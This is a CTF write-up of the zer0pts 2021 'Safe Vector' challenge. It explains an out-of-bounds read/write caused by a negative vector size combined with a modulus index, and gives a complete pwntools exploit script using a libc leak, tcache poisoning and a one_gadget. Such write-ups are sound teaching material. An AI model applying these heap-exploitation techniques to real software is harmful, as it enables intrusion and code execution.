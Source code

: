 ```yaml
---
title: Safe Vector - zer0pts CTF 2021
date: 2021-03-07 12:00:00
tags:
  - Linux
  - Exploitation
  - Heap
---
```


This was a really cool ctf, and we managed to solve 4 out of the 8 pwn challenges. Here's my writeup for safe vector - for which we got a top-10 solve.

![Safe Vector](https://i.imgur.com/uOENooT.png)

**tl;dr**
Faulty vector implementation, negative size and modulus function allows OOB r/w

## Initial analysis
The binary provided was a 64-bit one, and the author was kind enough to provide us with the CPP source code. The mitigations enabled were as follows:
```text
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```
Also, the provided libc was glibc 2.31.

The challenge implemented a custom vector, which allowed 5 options, namely `push`, `pop`, `store`, `load` and `wipe`.
`push` pushed a value into the vector and incremented the size, `pop` decremented the size, `store` allowed us to write a value into a particular index, and `load` allowed us to read a value at an index, and `wipe` erased all the contents of the vector and reset the size to 0.

## Reversing & Vulnerability

The vector had a custom indexing operation, which returned the element at `index % size`, so even if we give an out-of-bounds index to `store` or `load`, it would still return an element within the vector.

```cpp
template<typename T>
class safe_vector: public std::vector<T> {
public:
    void wipe() {
        std::vector<T>::resize(0);
        std::vector<T>::shrink_to_fit();
    }

    T& operator[](int index) {
        int size = std::vector<T>::size();
        if (size == 0) {
            throw "index out of bounds";
        }
        return std::vector<T>::operator[](index % size);
    }
};
```

The `push` option pushed a value into the vector, incrementing the size, and `pop` decremented the size of the array. However there was no check for whether the size was already 0, so we could continue to `pop` even after the size was 0, making it negative. 

Now, the `store` and `load` options allowed us to read and write at a particular index respectively, but what happens when the size is negative? If the size is negative, and the index we enter is also negative, we can view or write data at an out-of-bounds index, due to the modulus function `index % size`!

## Exploitation
Now that there's an obvious bug, it was pretty simple to exploit this. My method was to first abuse the vector `realloc`, which allocated a chunk, then if the size exceeded that of the allocated size, it would free that chunk and allocate another chunk of double the size, and so on (I learnt this just by observing the heap in gdb). This vector allocated a size of `0x20` to start (`malloc(0x10)`), then `0x30`, and so forth. For some reason it seems to allocate two `0x20` chunks initially (no idea why), but we could use this for tcache poisoning.

I abused this by `push`ing, thus increasing the size of the vector, until the size of the previous freed chunk became > `0x410` (greater than max tcache size, so it would go into unsorted bin). Then we could `pop` to a certain negative size to get an out-of-bounds read, and hence be able to leak libc from the unsorted bin fd pointer (pointer to main arena in libc). Following this, we could just `wipe` the vector, and then overwrite tcache fd of `0x20` size to an exit pointer, and get allocation there, and overwrite it with a `one_gadget` (one_gadgets didn't work on malloc hook or free hook). Following this, when the exit pointer is called, we get a shell!  

## Exploit script

```python
#!/usr/bin/python

from pwn import *
import sys

remote_ip, port = 'pwn.ctf.zer0pts.com', 9001
binary = './challmod'
brkpts = '''
b malloc
b execve
'''

elf = ELF("chall")
libc = ELF("libc.so.6")

context.terminal = ['tmux', 'splitw', '-h']
context.arch = "amd64"
context.log_level = "debug"
#context.aslr = False

re = lambda a: io.recv(a)
reu = lambda a: io.recvuntil(a)
rl = lambda: io.recvline()
s = lambda a: io.send(a)
sl = lambda a: io.sendline(a)
sla = lambda a,b: io.sendlineafter(a,b)
sa = lambda a,b: io.sendafter(a,b)

if len(sys.argv) > 1:
    io = remote(remote_ip, port)

else:
    io = process(binary, env = {'LD_PRELOAD' : './libc.so.6'})

def choice(idx):
    sla(">> ", str(idx))

def push(val):
    choice(1)
    sla("value: ", str(val))

def pop():
    choice(2)

def store(idx, val):
    choice(3)
    sla("index: ", str(idx))
    sla("value: ", str(val))

def leak(idx):
    choice(4)
    sla("index: ", str(idx))

def wipe():
    choice(5)

def getupper(val):
    return val >> 32

def getlower(val):
    return val & 0xffffffff

if __name__ == "__main__":
    for i in range(0x205):
        push(i)
    for i in range(0x205*2):
        pop()
    leak(-1030)
    reu("value: ")
    val = int(rl().strip()) << 32
    leak(-1031)
    reu("value: ")
    val += int(rl().strip())
    libc.address = val - 0x1ebbe0
    log.info("Libc : "+hex(libc.address))
    exitp = libc.address + 0x1ed500
    gadget = libc.address + [0xe6c7e, 0xe6c81, 0xe6c84, 0xe6e73, 0xe6e76][1]
    wipe()
    for i in range(5):
        push(i)
    for i in range(25):
        pop()
    store(-16, getlower(exitp))
    store(-15, getupper(exitp))
    wipe()
    push(getlower(gadget))
    push(getupper(gadget))
    sl('cat flag*')

    io.interactive()
```